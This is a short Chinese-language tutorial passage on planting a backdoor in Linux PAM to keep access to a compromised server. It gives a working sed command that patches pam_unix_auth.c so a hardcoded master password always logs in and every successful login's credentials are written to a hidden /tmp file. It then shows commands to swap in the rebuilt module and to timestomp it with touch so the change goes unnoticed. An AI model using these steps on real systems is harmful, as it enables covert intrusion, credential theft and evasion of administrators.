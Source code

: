 ![]()

####  **2.Linux Pam后门**

PAM是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于/etc/pam.d)，最后调用认证文件(位于/lib/security)进行安全认证

简易利用的PAM后门也是通过修改PAM源码中认证的逻辑来达到权限维持

源码：http://www.linux-pam.org/library/

查询版本：rpm-qa|grep pam

  

![]()

    
    
    tar -xzvf Linux-PAM-1.1.1.tar.gz  
    cd Linux-PAM-1.1.1

pamunixauth.c 修改认证逻辑，改成使用特定密码的后门，当然也可以作为一个记录敏感密码的功能，将记录的密码写入文件记录。

    
    
    sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'snsn123123'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("/tmp/.sshd", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c

  

![]()

    
    
    ./configure && make

![]()

    
    
    cp -rf /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak  
    cp -rf pam_unix.so /usr/lib64/security/pam_unix.so

![]()

    
    
    oldtime=`stat -c '%z' /lib64/security/pam_ftp.so`  
    touch -d "$oldtime" /usr/lib64/security/pam_unix.so

![]()  

当管理员登录之后就会有新的密码写入

![]()

通过万能密码也可以成功登录服务器

![]()
